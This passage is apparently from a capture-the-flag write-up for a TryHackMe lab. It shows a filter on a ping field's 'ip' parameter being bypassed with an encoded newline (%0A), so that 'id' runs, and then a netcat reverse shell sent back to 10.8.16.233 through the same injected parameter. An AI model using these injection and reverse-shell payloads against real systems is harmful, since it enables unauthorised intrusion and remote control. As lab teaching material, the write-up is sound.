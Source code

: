 * From the response, there is at least some detection mechanism implemented on user input, which check whether the input contains a character such as semi-colon `;`

One way to bypass this filtering mechanism is to inject the URL-encoded newline character in percent-encode (`%0A`) before the command you want to execute. 
For example, sending a request with the following POST data:

```bash
ip=127.0.0.1%0Aid&submit=
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-16 14_59_06-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Executing the 'id' command</i></center>
<br/>

* As can be seen from the returned response, the injected command '`id`' has been executed and we got the result of the execution back.

### **<strong><font color="DarkKhaki">Reverse shell</font></strong>**
Let's escalate the impact and execute a reverse shell on the server to get an initial foothold as `www-data`. <br/>

**1-** Start a netcat listener on port **9999**
```bash
nc -nlvp 9999
```

**2-** Run the following command via the command injection vulnerability:
```bash
nc -e /usr/bin/bash 10.8.16.233 9999
```

**3-** Sending the request with the following POST data:
```bash
ip=127.0.0.1%0Anc+-e+/usr/bin/bash+10.8.16.233+9999&submit
```
